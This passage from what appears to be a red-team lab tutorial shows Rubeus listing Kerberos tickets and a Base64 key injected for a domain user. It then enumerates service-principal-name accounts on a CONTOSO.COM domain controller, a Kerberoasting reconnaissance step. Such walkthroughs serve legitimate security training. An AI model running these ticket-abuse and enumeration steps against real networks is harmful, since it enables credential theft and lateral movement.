 ```batch
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  1PJYuYDQZDWNXR9MUpQxMGFbcFWKj9t6S01HXqUaobQ=

PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe klist

Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x27c136

  UserName                 : Attacker
  Domain                   : DESKTOP-FGSTPS7
  LogonId                  : 0x27c136
  UserSID                  : S-1-5-21-2869105692-1800599516-1289031363-1005
  AuthenticationPackage    : Negotiate
  LogonType                : NewCredentials
  LogonTime                : 28/04/2025 12:48:18
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        :

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 28/04/2025 12:30:43 ; 28/04/2025 22:30:43 ; 05/05/2025 12:30:43
      Server Name       : krbtgt/CONTOSO.COM @ CONTOSO.COM
      Client Name       : rsteel @ CONTOSO.COM
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)

    [1] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 28/04/2025 12:51:42 ; 28/04/2025 22:30:43 ; 05/05/2025 12:30:43
      Server Name       : ldap/lon-dc-1 @ CONTOSO.COM
      Client Name       : rsteel @ CONTOSO.COM
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)
```

This process will now have the tickets necessary to query the target domain controller.

```batch
PS C:\Users\Attacker> ipmo ActiveDirectory
PS C:\Users\Attacker> Get-ADUser -Filter 'ServicePrincipalName -like "*"' -Server lon-dc-1 | select DistinguishedName

DistinguishedName
-----------------
CN=krbtgt,CN=Users,DC=contoso,DC=com
CN=MSSQL Service,CN=Users,DC=contoso,DC=com
CN=Christopher Robin,CN=Users,DC=contoso,DC=com
```

### Proxychains on Linux <a href="#el_1739883373109_357" id="el_1739883373109_357"></a>
